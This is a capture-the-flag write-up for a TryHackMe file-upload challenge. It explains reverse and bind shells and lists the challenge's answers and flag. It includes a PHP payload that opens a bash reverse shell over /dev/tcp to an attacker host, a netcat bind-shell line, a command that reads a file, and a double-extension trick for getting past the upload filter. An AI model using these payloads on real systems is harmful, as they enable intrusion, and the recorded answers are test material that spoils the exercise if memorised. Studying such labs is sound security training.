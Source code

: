 # Day 2 - The Elf Strikes Back!

**Date:** 02, December, 2020

**Author:** Dhilip Sanjay S

---
## Reverse Shell
- Attack Box will be listening for incoming connection. The victim will connect back to the attack box (by some malicious script).
- In this example, the PHP script is used to create a reverse shell.

## Bind Shell
- A bind shell is created in the victim and binds to a specific port to listen for an incoming connection from the attack box.
---
## Solutions
### What string of text needs added to the URL to get access to the upload page?
- **Answer:** `?id=Your-ID`
---
### What type of file is accepted by the site?
- **Answer:** image
- **Steps to reproduce:** View source code. It will accept files with extension _.jpg, .jpeg, .png_ (which are image extensions).
---
### Bypass the filter and upload a reverse shell.
- Reverse shell is used to obtain the flag.
- 3 ways to obtain flag using PHP:
1. __Reverse Shell using the pre-written script__
    - Make a copy of the script: `/usr/share/webshells/php/php-reverse-shell.php` 
    - Replace `$ip` and `$port` in the script with your IP Address and the port on which your netcat is listening. 

2. __Reverse Shell using exec command__
    - To obtain Reverse shell without much complicated code.
    - And also netcat is not available in target.

    ```php
    <?php
    echo exec("/bin/bash -i > /dev/tcp/$ip/$port 0<&1 2>&1");
    ?>
    ```
    - **Note:** Replace `$ip` and `$port` with your IP Address and the port on which your netcat is listening.

    > In the same way, **bind shell** can be established:
    > ```php 
    > <?php
    > exec("nc -lp $port -e /bin/sh");
    > ?>
    > ```
    > - But `nc` is not installed on the server. So, it is not possible in this case.
    > - To connect to the bind shell, on the attack machine type the command: `nc $target_ip $port`.

3. __Print the flag directly__
    - We know that the flag is in the file `/var/www/flag.txt`. So, we can use PHP to directly fetch and display the flag for us.
    ```php
    <?php
    echo shell_exec("cat /var/www/flag.txt");
    ?>
    ```
---
### In which directory are the uploaded files stored?
- **Answer:** /uploads/
- Use `dirbuster` to find the folders.

---
### Activate your reverse shell and catch it in a netcat listener!
- To bypass the file upload extension filter: `your-file.(jpg|jpeg|png).php`
- The filter will check the extension after the first dot in the filename. This way, you can upload any file format. 
- To listen to the reverse shell:
    ```bash
    sudo nc -lvnp $port
    ``` 

---
### What is the flag in `/var/www/flag.txt`?
-  **Answer:** THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}

---

## Reference Links
- [Netcat without netcat](https://www.youtube.com/watch?v=hZ6TjWuepqw)
- [IO redirection](https://tldp.org/LDP/abs/html/io-redirection.html)
- [Meaning of 2>&1 (STDERR to STDOUT)](https://stackoverflow.com/questions/818255/in-the-shell-what-does-21-mean)

[Back to Advent of Cyber 2](/Advent%20of%20Cyber%202) 